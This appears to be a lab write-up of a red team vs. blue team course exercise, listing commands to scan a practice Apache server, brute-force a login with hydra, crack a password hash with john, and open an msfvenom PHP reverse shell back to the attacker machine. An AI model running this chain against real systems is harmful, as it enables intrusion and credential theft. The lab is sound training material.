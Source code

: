 # Project 2
## RedTeam vs. BlueTeam


### Devices
- Kali
- Capstone
- Elk 

### Set Up Beats 
Need to set up beats in order to log the attacks. 

Steps to set up:
 - Log into Capstone
   - ```vagrant:tnargav```
 - ```sudo su```
 - ```filebeat modules enable apache```
 - ```filebeat setup```
 - ```metricbeat modules enable apache```
 - ```metricbeat setup```
 - ```packetbeat setup```
 - ```systemctl restart filebeat```
 - ```systemdtl restart metricbeat```
 - ```systemctl restart packetbeat```
  

### Attacking Capstone
- Determine capstone ip
  - First find kali ip
    - ```ifconfig```
    - 192.168.1.90
  - Run nmap against 192.168.1.1/24 
    - ```nmap 192.168.1.1/24```
    - Did not give enough information to determine what machine is which
    - ![](Img/nmap1.png)
    - ```nmap -sV 192.168.1.1/24```
      - 192.168.1.100 
        - Elastic Search | Ubuntu
      - 192.168.1.105
        - Apache | Ubuntu
      - ![](Img/nmap2.png)
- Open http://192.168.1.105
  - Try to find "secret" page
    - ```dirb http://192.168.1.105```
      - Returned
        - http://192.168.1.105/server-status
          - Access Forbidden
        - http://192.168.1.105/webdav
          - Username:Password Protected
    - ```dirb http://192.168.1.105/company_folders```
      - Returned 0
    - Scrolled through pages
      - Error file missing please refer to company_folders/secret_folder
       ![](/Img/web4.png)
- Run Hydra against http://192.168.1.105/company_folders_secret_folder
  - Find Wordlist
    - ```locate rockyou```
  - ```cd /usr/share/wordlists```
  - ```ls```
  - ```gunzip rockyou.txt.gz```
  - ```ls```
    - to verify successful unzip
  - ```hydra help```
    - To see all avaliable flags
  - Ashton manages secret folder
    - Means username is ashton 
  - ``` hydra -l ashton -P rockyou.txt -s 80  -f -vV 192.168.1.105 http-get /company_folders/secret_folder ```
    - ```ashton:leopoldo```
     ![](/Img/hydra2.png)
- Open connect to corp server
  - webdav
  - log in with ryans account
  - ryan password hash ``` d7dad0a5cd7c8376eeb50d69b3ccd352 ```
  - ``` echo d7dad0a5cd7c8376eeb50d69b3ccd352 > hash.txt ```
  - ```john hash.txt```
  - ```john -show hash.txt ```
    - ```ryan:linux4u```
- Upload reverse php to webdav
  - ```msfvenom -p php/reverse_php LHOST=192.168.1.90 LPORT=4445 -f raw > exploit.php```
    ![](Img/msfvenom1.png)
- Create Listener
  - ```msf console```
    - ```use exploit multi/handler```
    - ``` set LHOST 192.168.1.90```
    - ``` set LPORT 4445```
    - ```set exploit php/reverse_php```
    - ```exploit```
     ![](Img/msfvenom2.png)
- Open exploit.php in web to run on remote server
- Meterpreter session
  - ```cd /```
  - ```ls```
  - ```cat flag.txt```
  
     ![](Img/flag.txt)